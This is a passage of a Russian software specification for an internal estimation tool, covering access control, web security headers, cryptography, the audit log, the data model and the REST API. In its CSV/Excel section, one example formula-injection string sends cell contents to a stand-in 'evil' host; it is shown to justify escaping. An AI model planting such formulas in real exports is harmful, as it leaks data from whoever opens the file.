**SEC-AUTHZ-02.** Политика «запрещено по умолчанию»: каждый эндпоинт явно объявляет требуемое право (декоратор/зависимость FastAPI). Эндпоинт без объявленного права не проходит автотест «все маршруты защищены» (TC-SEC-01) и не попадает в сборку.

**SEC-AUTHZ-03.** Доступ к объекту проекта (узлу, сообщению, снимку, экспорту) проверяется по цепочке «объект → проект → членство пользователя → роль → дисциплина». Идентификаторы объектов — UUID v7, но **непредсказуемость идентификатора не считается мерой защиты**. На объект чужого проекта сервер отвечает 404, а не 403 (не раскрывает существование).

**SEC-AUTHZ-04.** Деньги изолированы на уровне данных и API:

- ставки и курс хранятся в отдельной таблице `project_money`;
- для денег отдельные эндпоинты (`/projects/{id}/money/*`) с правом `money.read`;
- в общих ответах (дерево, статистика, снимки, экспорт, события WebSocket) денежные поля **отсутствуют** для пользователей без права (не `null`, а нет ключа);
- события WebSocket с деньгами публикуются в отдельный канал `project:{id}:money`, подписаться на который может только пользователь с `money.read`;
- снимок хранит деньги в отдельном поле, которое при выдаче эксперту не сериализуется.



**SEC-AUTHZ-05.** Пример матрицы проверок записи, которую ДОЛЖЕН покрыть автотест (полный перебор роль × действие × принадлежность ветки):

| Кто | Действие | Ветка | Ожидание |
|---|---|---|---|
| Эксперт Бэкенда | PATCH O/R/P листа | Бэкенд | 200 |
| Эксперт Бэкенда | PATCH O/R/P листа | Фронтенд | 403 |
| Эксперт Бэкенда | Перенос своего листа в ветку Фронтенда | — | 403 |
| Эксперт Бэкенда | GET /projects/42/money/rates | — | 403 |
| Эксперт другого проекта | GET /projects/42/tree | — | 404 |
| Пресейл | PATCH O/R/P любого листа | — | 403 |
| Администратор (не участник) | GET /projects/42/tree | — | 404 |
| Суперадминистратор | GET /projects/42/tree | — | 404 |
| Модератор | PATCH O/R/P листа | любая | 200 |

**SEC-AUTHZ-06.** Изменение системных ролей: администратор не может выдать или снять роль «Администратор» (только суперадминистратор), не может менять собственные роли. Никто не может менять собственные роли.

### 12.5. Защита веб-приложения

**SEC-WEB-01.** Только HTTPS. TLS 1.2 и 1.3, наборы шифров по профилю Mozilla «intermediate». HTTP → 301 на HTTPS. HSTS `max-age=31536000; includeSubDomains`.

**SEC-WEB-02.** Весь пользовательский текст (названия, комментарии, сообщения, ФИО из AD) выводится как текст: React экранирует по умолчанию; использование `dangerouslySetInnerHTML` запрещено правилом линтера. Автоссылки строятся компонентом, допускаются только схемы `http` и `https`.

**SEC-WEB-03.** Заголовки ответа:

```text
Content-Security-Policy: default-src 'self'; script-src 'self'; style-src 'self';
    img-src 'self' data:; connect-src 'self' wss://<host>; frame-ancestors 'none';
    base-uri 'none'; form-action 'self'; object-src 'none'
X-Content-Type-Options: nosniff
Referrer-Policy: same-origin
Permissions-Policy: camera=(), microphone=(), geolocation=()
Cross-Origin-Opener-Policy: same-origin
Cache-Control: no-store                      (для всех ответов /api/*)
```

Фронтенд собирается без inline-скриптов, внешние CDN не используются (все зависимости в сборке). **Почему:** внутреннее приложение не должно зависеть от доступности и честности внешних CDN.

**SEC-WEB-04.** CSRF: cookie `SameSite=Strict` + заголовок `X-CSRF-Token` (значение из отдельной не-HttpOnly cookie, сравнивается с привязанным к сессии) на все изменяющие запросы. WebSocket при подключении проверяет заголовок `Origin` по списку разрешённых.

**SEC-WEB-05.** CORS выключен (фронтенд и API на одном домене). SQL — только через ORM/параметризованные запросы; сырые SQL-строки с подстановкой значений запрещены правилом линтера (bandit/semgrep).

**SEC-WEB-06.** Защита от формульных инъекций в Excel/CSV: текстовые значения, начинающиеся с `=`, `+`, `-`, `@`, `\t`, `\r`, экранируются префиксом `'`. **Пример:** эксперт пишет комментарий `=HYPERLINK("http://evil/?"&A1;"Подробнее")`; без экранирования модератор, открыв выгрузку, может отправить данные на чужой сервер.

**SEC-WEB-07.** Ограничение частоты (на пользователя): 300 изменяющих запросов в минуту, 30 экспортов в час, 60 сообщений в обсуждениях в минуту. Превышение — 429 с заголовком `Retry-After`.

**SEC-WEB-08.** Ограничения размеров: тело запроса ≤ 1 МБ (кроме загрузки сертификата УЦ ≤ 64 КБ), WebSocket-сообщение ≤ 64 КБ, длины полей — по разделам 5 и 8.

**SEC-WEB-09.** Сообщения об ошибках пользователю не содержат трассировок, SQL, версий библиотек. Каждая ошибка 5xx имеет `error_id`, по которому её находят в логах.

### 12.6. Криптография и секреты

**SEC-CRYPT-01.** Секреты приложения (ключ шифрования, пароль БД, пароль Redis, SMTP) передаются через переменные окружения или файлы Docker secrets; в репозитории и образах их нет. Ключ шифрования — 256 бит.

**SEC-CRYPT-02.** Поддержка ротации ключа шифрования: в зашифрованном значении хранится идентификатор ключа; консольная команда `estimator rotate-key` перешифровывает значения.

**SEC-CRYPT-03.** Шифруются на уровне приложения (AES-256-GCM, библиотека `cryptography`): секреты TOTP, пароль сервисной учётки AD, пароль SMTP.

**SEC-CRYPT-04.** Шифрование данных на диске (PostgreSQL, резервные копии) — средствами инфраструктуры (шифрование тома / зашифрованное хранилище бэкапов). Резервные копии дополнительно шифруются при создании (`age` или `gpg`), ключ хранится отдельно от копий.

**SEC-CRYPT-05.** Соединения внутри контура: приложение ↔ PostgreSQL — TLS (`sslmode=verify-full`), приложение ↔ Redis — пароль (ACL) и TLS, если Redis на другом хосте.

### 12.7. Журнал аудита

**SEC-AUD-01.** Журналируемые события (минимум):

| Категория | События |
|---|---|
| Аутентификация | Успешный вход, неуспешный вход (с причиной: нет пользователя, неверный пароль, заблокирован, не в группе AD, неверный TOTP), выход, истечение сессии, блокировка по попыткам, сброс и смена пароля, подключение и сброс 2FA, завершение сессий |
| Пользователи и роли | Создание, блокировка, разблокировка, анонимизация, изменение системных ролей, синхронизация AD (сводка) |
| Система | Смена способа аутентификации, изменение настроек AD, политик, SMTP, сетей; создание/разжалование администраторов и суперадминистраторов |
| Справочники | Любое изменение со значениями «было → стало» |
| Проекты | Создание, смена статуса, изменение команды и ролей в проекте, изменение ставок/валюты/курса (только факт изменения, без сумм — см. уточнение ниже), снимок, экспорт (вид, кто), передача модератора, физическое удаление |
| Безопасность | Отказ в доступе 403/404 на объекты проекта (агрегированно: не чаще 1 записи в минуту на пользователя и объект), превышение rate limit |

**SEC-AUD-02.** Поля записи: время (UTC, мкс), тип события, результат, пользователь (id и логин на момент события), IP, User-Agent, идентификатор сессии (хэш), объект (тип, id), детали (JSON без секретов), `prev_hash`, `hash`.

**SEC-AUD-03.** Неизменяемость: таблица `audit_log` — только INSERT. Роль БД приложения не имеет прав `UPDATE`, `DELETE`, `TRUNCATE` на неё (отдельная схема, права выдаются миграцией). Каждая запись содержит SHA-256 от (предыдущий hash + содержимое записи); команда `estimator audit verify` проверяет целостность цепочки.

**SEC-AUD-04.** Хранение — 1 год по умолчанию (настраивает суперадминистратор, минимум 6 месяцев). Удаление старых записей — консольной командой с отдельной ролью БД, с сохранением хэша последней удалённой записи (якорь цепочки).

**SEC-AUD-05.** Экспорт в SIEM: запись событий аудита дополнительно в stdout в формате JSON (одна строка — одно событие) и опционально в syslog (RFC 5424, TCP+TLS). Настраивает суперадминистратор.

**SEC-AUD-06.** Просмотр аудита: суперадминистратор — всё; администратор — категории «Справочники» и «Пользователи и роли». Фильтры: период, пользователь, тип события, результат. Выгрузка в CSV — со step-up.

> Уточнение к SEC-AUD-01 «Проекты»: в журнал пишется **факт** изменения ставок и курса (кто, когда, какой проект, какая дисциплина), но **не значения**. **Почему:** журнал читает суперадминистратор, которому деньги видеть не положено (раздел 3.2). Значения ставок остаются в истории проекта, доступной модераторам.

### 12.8. Персональные данные

**SEC-PD-01.** Состав ПДн: ФИО, логин, корпоративный email, IP-адреса и User-Agent в журналах. Других ПДн (телефоны, паспортные данные) приложение не собирает; поля для них не создаются.

**SEC-PD-02.** Приложение — внутренняя система компании; основание обработки — трудовые отношения. Уведомление Роскомнадзора и локальные акты — ответственность компании, а не приложения.

**SEC-PD-03.** «Анонимизация» пользователя (суперадминистратор или администратор, для заблокированных): ФИО → «Удалённый пользователь #<номер>», логин и email → случайные значения, сессии и 2FA удаляются. Авторство в проектах сохраняется в обезличенном виде. IP в журнале аудита не стирается до истечения срока хранения (требование расследования инцидентов).

### 12.9. Безопасная разработка

**SEC-SDLC-01.** В CI на каждый merge request: `ruff` + `bandit` + `semgrep` (Python), `eslint` с плагином security (TypeScript), `pip-audit` и `npm audit --omit=dev` (критичные и высокие уязвимости блокируют слияние), `gitleaks` (секреты в коде), `trivy` (образы контейнеров).

**SEC-SDLC-02.** Перед каждым релизом: DAST-сканирование OWASP ZAP (baseline + авторизованный сканер на тестовом стенде), ручная проверка по чек-листу раздела 17.3.

**SEC-SDLC-03.** Зависимости закреплены по версиям с хэшами (`uv lock` / `pip-compile --generate-hashes`, `package-lock.json`). Обновление — ежемесячно и по выходу уязвимостей.

**SEC-SDLC-04.** Контейнеры: минимальные базовые образы (`python:3.12-slim`, `nginx:alpine` или `distroless`), процесс не от root, файловая система только для чтения, кроме `/tmp`; `no-new-privileges`.

**SEC-SDLC-05.** Перед вводом в промышленную эксплуатацию — внешний или внутренний пентест силами службы ИБ компании. [Допущение — Q-11]

### 12.10. Сводка мер по ролям



---

## 13. Архитектура и технологический стек

### 13.1. Стек

| Слой | Технология | Почему выбрана |
|---|---|---|
| Язык бэкенда | Python 3.12 | Требование заказчика |
| Веб-фреймворк | FastAPI + Uvicorn (ASGI) | Асинхронность и встроенная поддержка WebSocket для совместной работы; схемы Pydantic дают валидацию и OpenAPI-документацию бесплатно |
| ORM и миграции | SQLAlchemy 2.0 (async) + Alembic | Стандарт де-факто; параметризованные запросы; управляемые миграции |
| СУБД | PostgreSQL 16 | Требование заказчика. Используем `JSONB` (снимки), рекурсивные CTE (дерево), `NUMERIC` (деньги и часы) |
| Кэш, сессии, pub/sub | Redis 7 | Сессии с мгновенным отзывом, рассылка событий между несколькими процессами приложения, rate limit, мягкие блокировки ячеек с TTL |
| Фоновые задачи | Celery 5 + Redis (брокер) + Celery Beat | Экспорт, письма, ежедневная сводка, синхронизация AD, автоархивация |
| LDAP | `ldap3` | Чистый Python, поддерживает LDAPS/StartTLS и проверку сертификатов |
| Excel / Word | `openpyxl` / `python-docx` | Без зависимости от MS Office |
| Пароли, TOTP, шифрование | `argon2-cffi`, `pyotp`, `cryptography` | Проверенные библиотеки |
| Фронтенд | TypeScript, React 18, Vite | Большое сообщество; сложный интерактивный экран дерева |
| Таблица-дерево | TanStack Table + TanStack Virtual | Виртуализация сотен и тысяч строк, полный контроль над разметкой |
| Состояние и данные | TanStack Query + Zustand | Кэш серверных данных + локальное состояние дерева |
| UI-компоненты | Mantine (или аналог, решит фронтенд-лид) | Готовые доступные компоненты, тёмная тема не нужна в MVP |
| Обратный прокси | Nginx | TLS, статика, заголовки безопасности, проксирование WebSocket |
| Развёртывание | Docker + Docker Compose (MVP); Kubernetes — опционально | Внутренний контур компании, простая установка |
| Мониторинг | Prometheus-метрики (`/metrics`), структурные JSON-логи (`structlog`) | Совместимо с типовым стеком мониторинга |
| Тесты | pytest, pytest-asyncio, Hypothesis (расчёты), Playwright (E2E), Vitest (фронтенд) | |

> **Почему не Django.** Django хорош для админок и CRUD, но основная сложность приложения — совместная работа в реальном времени над деревом. FastAPI с нативным WebSocket и async-SQLAlchemy даёт для этого более простой путь, чем Django Channels. Админка в приложении своя (её интерфейс — часть продукта), поэтому преимущество Django Admin не используется.

> **Почему не JWT.** См. FR-SESS-01: нужен мгновенный отзыв сессий.

### 13.2. Компоненты



### 13.3. Совместная работа: как событие доходит до всех



**ARCH-01.** Изменения отправляются по REST (HTTPS), а не через WebSocket. WebSocket — только канал уведомлений «сервер → клиент» и мягких блокировок. **Почему:** у REST простые и проверенные механизмы CSRF, rate limit, журналирования и повторов; WebSocket используется там, где он действительно нужен.

**ARCH-02.** Каждое изменение проекта увеличивает `projects.version` (монотонный счётчик) и записывается в `change_log` проекта с этим номером. Клиент знает последнюю применённую версию и при переподключении догружает пропущенное (FR-TREE-33). `change_log` хранится 7 дней; если клиент отстал сильнее — полная перезагрузка дерева.

**ARCH-03.** Суммы по узлам **не хранятся** в БД как источник истины: сервер считает их в памяти при выдаче дерева (дерево проекта ≤ 5 000 узлов загружается одним запросом), клиент пересчитывает локально. **Почему:** хранимые суммы требуют пересчёта всех предков при каждой правке и блокировок строк в БД при одновременных правках — ровно та проблема Cash-Meter, от которой уходим. Для списков проектов итог кэшируется в `projects.cached_total_e` (обновляется фоновой задачей с задержкой до 10 с).

**ARCH-04.** Порядок детей хранится строковым ключом (fractional indexing, `position TEXT COLLATE "C"`). Вставка между двумя узлами не требует перенумерации соседей и не создаёт конфликтов при одновременной вставке.

---

## 14. Модель данных

### 14.1. ER-диаграмма (основные сущности)



### 14.2. Таблицы

Общие правила: первичные ключи — `UUID` (v7, генерируются приложением); все времена — `TIMESTAMPTZ` в UTC; у изменяемых таблиц есть `created_at`, `created_by`, `updated_at`, `updated_by`; удаление пользователей и справочников — логическое (`is_active` / `deleted_at`).

**users**

| Поле | Тип | Описание |
|---|---|---|
| id | UUID PK | |
| login | CITEXT UNIQUE | Логин (для AD — sAMAccountName или UPN) |
| email | CITEXT UNIQUE | |
| full_name | TEXT | ФИО |
| source | ENUM('local','ad') | Источник учётной записи |
| ad_object_guid | UUID NULL UNIQUE | objectGUID из AD — устойчив к переименованию логина |
| password_hash | TEXT NULL | Только для local |
| password_changed_at | TIMESTAMPTZ NULL | |
| totp_secret_enc | BYTEA NULL | Зашифрован (SEC-CRYPT-03) |
| totp_enabled | BOOLEAN | |
| status | ENUM('active','blocked','pending_password','anonymized') | |
| failed_attempts, locked_until | INT, TIMESTAMPTZ | Для FR-LOCK-01 |
| last_login_at | TIMESTAMPTZ | |
| notify_digest | BOOLEAN DEFAULT true | Ежедневная сводка |

**user_roles** — `user_id`, `role ENUM('superadmin','admin','moderator','presale')`, `source ENUM('manual','ad_group')`, PK (`user_id`, `role`). Роль «Пользователь» не хранится — она есть у всех.

**password_history** — `user_id`, `password_hash`, `created_at` (последние N).

**backup_codes** — `user_id`, `code_hash`, `used_at`.

**sessions** — `id_hash`, `user_id`, `created_at`, `last_seen_at`, `expires_at`, `ip`, `user_agent`, `mfa_passed`, `step_up_until`, `revoked_at`. (Активные — в Redis, таблица — для списка сессий и аудита.)

**system_settings** — `key TEXT PK`, `value JSONB`, `updated_by`, `updated_at`. Ключи: `auth.mode`, `auth.ad.*`, `security.password_policy`, `security.session`, `security.lockout`, `security.mfa_policy`, `security.admin_networks`, `smtp.*`, `app.base_url`, `app.timezone`, `audit.retention_days`, `digest.time`. Секретные значения хранятся зашифрованными.

**phases** — `id`, `name`, `sort_order`, `is_cross_cutting` (ровно одна `true`, частичный уникальный индекс), `is_active`.

**disciplines** — `id`, `name`, `short_name`, `color`, `default_profile_id`, `is_active`.

**node_types** — `id`, `name`, `icon`, `norms JSONB` (`[{"label":"средний","o":5,"r":7,"p":10}]`), `is_active`, `is_system` («Работа»), `project_id NULL` (не NULL — локальный тип проекта), `proposal_status ENUM('none','proposed','accepted','merged','rejected')`.

**discipline_profiles** — `id`, `discipline_id`, `name`, `type_chain UUID[]`.

**comment_tags** — `id`, `name`, `short_name`, `color`, `category ENUM('assumption','constraint','risk','tech')`.

**control_ratios** — `id`, `discipline_a_id`, `disciplines_b UUID[]`, `min_pct`, `max_pct`.

**app_params** — пороги детализации, % УП по умолчанию, срок автоархивации (можно хранить в `system_settings` под ключами `method.*`, редактируются администратором).

**projects**

| Поле | Тип | Описание |
|---|---|---|
| id | UUID PK | |
| name, customer, description | TEXT | |
| status | ENUM('preparation','estimation','consolidation','completed','archived') | |
| outcome | ENUM('unknown','won','lost','cancelled') | |
| detail_level | ENUM('coarse','medium','detailed') | |
| pm_percent | NUMERIC(4,1) | Процент УП |
| pm_percent_reason | TEXT | |
| deadline | DATE NULL | |
| version | BIGINT | Монотонный счётчик изменений (ARCH-02) |
| cached_total_e | NUMERIC(12,2) | Кэш для списков |
| archived_at | TIMESTAMPTZ NULL | |

**project_money** (доступ только через сервис денег) — `project_id PK`, `currency CHAR(3)`, `exchange_rate NUMERIC(12,4)`, `updated_by`, `updated_at`.

**project_rates** — `project_id`, `discipline_id NULL` (NULL = ставка УП), `rate_rub NUMERIC(12,0)`, уникальность (`project_id`, `discipline_id`).

**project_members** — `id`, `project_id`, `user_id`, `role ENUM('moderator','expert','presale')`, `discipline_id NULL` (обязательно для expert), `is_reviewer BOOLEAN`, уникальность (`project_id`, `user_id`, `role`, `discipline_id`).

**project_phases** — `project_id`, `phase_id`, `is_enabled`.

**nodes** — центральная таблица дерева

| Поле | Тип | Описание |
|---|---|---|
| id | UUID PK | |
| project_id | UUID FK, индекс | |
| parent_id | UUID FK NULL | NULL только у узлов-фаз |
| kind | ENUM('phase','discipline','item') | Фаза и дисциплина — системные узлы |
| phase_id | UUID FK | Денормализовано для всех узлов — быстрый фильтр и проверка прав |
| discipline_id | UUID FK NULL | Денормализовано для всех узлов ниже фазы |
| type_id | UUID FK NULL | Для `item` |
| title | VARCHAR(200) | |
| position | TEXT COLLATE "C" | Порядок среди соседей (ARCH-04) |
| o, r, p | NUMERIC(7,1) NULL | Только у листьев |
| multiplier | INT DEFAULT 1 CHECK ≥ 1 и ≤ 10 000 | |
| comment | VARCHAR(2000) NULL | |
| comment_tag_id | UUID NULL | |
| reviewed_by, reviewed_at | UUID, TIMESTAMPTZ NULL | «Проверено» |
| version | INT | Версия узла (FR-TREE-32) |
| field_versions | JSONB | `{"o":7,"r":8,"p":5,"multiplier":1,"comment":3,...}` — версия узла, на которой поле менялось последний раз |
| deleted_at, deleted_batch_id | NULL | Корзина; пакет удаления |

Ограничения: `CHECK (kind <> 'item' OR (phase_id IS NOT NULL AND discipline_id IS NOT NULL))`; признак «лист» не хранится, вычисляется (нет активных детей); глубина проверяется приложением (BR-TREE-05).

**branch_status** — `project_id`, `phase_id`, `discipline_id`, `status ENUM('not_started','draft','done','not_needed')`, `changed_by`, `changed_at`. PK из трёх полей.

**node_history** (только INSERT) — `id`, `node_id`, `project_id`, `project_version`, `user_id`, `action ENUM('create','update','move','delete','restore','split','collapse','review')`, `changes JSONB` (`{"r":[12,16],"p":[20,30]}`), `created_at`.

**messages** — `id`, `project_id`, `node_id`, `author_id`, `body VARCHAR(4000)`, `kind ENUM('message','event','customer_answer')`, `needs_answer BOOLEAN`, `thread_status ENUM('open','resolved') NULL` (у первого сообщения с флагом), `resolved_by`, `resolved_at`, `edited_at`, `revoked_at`, `customer_question_no INT NULL`, `customer_status ENUM('new','sent','answered','withdrawn') NULL`, `sent_at`, `answered_at`.

**message_addressees** — `message_id`, `target_type ENUM('user','discipline','moderators','customer')`, `target_id NULL`.

**notifications** — `id`, `user_id`, `project_id`, `node_id`, `kind`, `payload JSONB` (без денег), `created_at`, `read_at`, `emailed_at`.

**snapshots** — `id`, `project_id`, `name`, `description`, `created_by`, `created_at`, `is_invalid`, `payload JSONB` (дерево, расчёты, настройки, справочники), `money_payload JSONB` (ставки, курс, стоимость — отдаётся только с `money.read`), `payload_sha256`.

**change_log** — `project_id`, `version`, `event JSONB`, `created_at`; PK (`project_id`, `version`); очистка старше 7 дней.

**user_view_state** — `user_id`, `project_id`, `state JSONB` (раскрытие, фильтры, ширины).

**export_files** — `id`, `user_id`, `project_id`, `kind`, `path`, `expires_at`.

**audit_log** (схема `audit`, только INSERT) — поля по SEC-AUD-02. Партиционирование по месяцам.

### 14.3. Пример: загрузка дерева проекта

```sql
-- Одним запросом все живые узлы проекта; сборка дерева и суммы — в приложении
SELECT id, parent_id, kind, phase_id, discipline_id, type_id, title, position,
       o, r, p, multiplier, comment, comment_tag_id, reviewed_by, version
FROM nodes
WHERE project_id = :project_id AND deleted_at IS NULL
ORDER BY parent_id NULLS FIRST, position;
```

Индексы: `nodes(project_id) WHERE deleted_at IS NULL`, `nodes(parent_id, position)`, `messages(node_id, created_at)`, `messages(project_id) WHERE thread_status = 'open'`, `notifications(user_id) WHERE read_at IS NULL`, `node_history(node_id, created_at)`.

---

## 15. API и события реального времени

### 15.1. Соглашения

- Базовый путь `/api/v1`. JSON, UTF-8. Числа O/R/P и деньги передаются **строками** (`"12.5"`), чтобы не терять точность в JavaScript.
- Ошибки — формат RFC 9457 (Problem Details): `{"type": "...", "title": "...", "status": 409, "code": "FIELD_CONFLICT", "detail": "...", "error_id": "..."}`. Код `code` — стабильный, на него опирается фронтенд и тесты.
- Документация OpenAPI генерируется автоматически и доступна на тестовом стенде; на промышленном — выключена.
- Пагинация списков — курсорная (`?cursor=&limit=`, limit ≤ 200).

### 15.2. Основные эндпоинты

| Метод и путь | Назначение | Право |
|---|---|---|
| POST /auth/login, /auth/totp, /auth/logout | Вход, второй фактор, выход | — |
| POST /auth/password/forgot, /auth/password/reset | Сброс пароля (режим «Приложение») | — |
| GET /me, GET/DELETE /me/sessions | Профиль, сессии | авторизован |
| GET/PUT /system/settings/{section} | Настройки системы | superadmin + step-up на запись |
| POST /system/auth/ad/test-connection, /test-login | Проверка AD | superadmin |
| POST /system/auth/switch-mode (dry_run=true/false) | Смена режима | superadmin + step-up |
| GET /system/audit | Аудит | superadmin / admin (частично) |
| CRUD /admin/users, /admin/phases, /admin/disciplines, /admin/node-types, /admin/profiles, /admin/ratios, /admin/tags, /admin/currencies | Справочники | admin |
| GET /admin/projects, POST /admin/projects/{id}/moderators | Реестр, передача | admin |
| GET/POST /projects, GET/PATCH /projects/{id} | Проекты | участник / moderator |
| POST /projects/{id}/status | Смена статуса | moderator проекта |
| GET/PUT /projects/{id}/members | Команда | moderator проекта (запись) |
| GET/PUT /projects/{id}/money | Ставки, валюта, курс | money.read / money.write |
| GET /projects/{id}/tree | Дерево целиком + version | участник |
| GET /projects/{id}/changes?since={version} | Изменения с версии | участник |
| POST /projects/{id}/nodes | Создать узел | правка ветки |
| PATCH /nodes/{id} | Изменить поля | правка ветки |
| POST /nodes/{id}/move, /split, /collapse, /review, /restore | Операции | по правам |
| DELETE /nodes/{id} | В корзину | правка ветки |
| GET /nodes/{id}/history | История | участник |
| PUT /projects/{id}/branches/{phase}/{discipline}/status | Статус ветки | по BR-BR-* |
| GET/POST /nodes/{id}/messages, PATCH /messages/{id}, POST /messages/{id}/resolve, /revoke | Обсуждения | участник |
| GET /projects/{id}/customer-questions, POST .../export, POST .../{id}/answer | Вопросы заказчику | moderator, presale |
| GET /projects/{id}/stats | Статистика (деньги — только с money.read) | участник |
| GET/POST /projects/{id}/snapshots, GET /snapshots/{id}/diff?with= | Снимки | по матрице |
| POST /projects/{id}/exports, GET /exports/{id} | Экспорт | по матрице |
| GET /notifications, POST /notifications/read | Уведомления | авторизован |
| WS /ws | Канал событий | авторизован |

### 15.3. Пример: изменение листа

Запрос:

```http
PATCH /api/v1/nodes/0192f1c4-7a1e-7c3b-9f00-1a2b3c4d5e6f
Content-Type: application/json
X-CSRF-Token: 5f2c…

{
  "base_version": 7,
  "changes": { "r": "16", "p": "30" }
}
```

Ответ 200:

```json
{
  "node": {
    "id": "0192f1c4-…",
    "o": "8", "r": "16", "p": "30", "multiplier": 1,
    "e": "17.00", "sigma": "3.67",
    "version": 8
  },
  "project_version": 1051,
  "branch_status": { "phase_id": "…", "discipline_id": "…", "status": "draft", "was": "done" }
}
```

Ответ 409 при конфликте поля:

```json
{
  "type": "https://estimator.local/problems/field-conflict",
  "title": "Значение уже изменено",
  "status": 409,
  "code": "FIELD_CONFLICT",
  "conflicts": [
    { "field": "r", "current": "18", "changed_by": "П. Петров", "changed_at": "2026-11-03T12:01:44Z" }
  ],
  "current_version": 9
}
```

Ошибки валидации — 422 с `code`: `VALUE_OUT_OF_RANGE`, `STEP_NOT_ALLOWED`, `NODE_HAS_CHILDREN` (попытка поставить O/R/P узлу), `DEPTH_LIMIT`, `NODES_LIMIT`, `CELL_LOCKED` (ячейку редактирует другой; поле `locked_by`).

### 15.4. События WebSocket

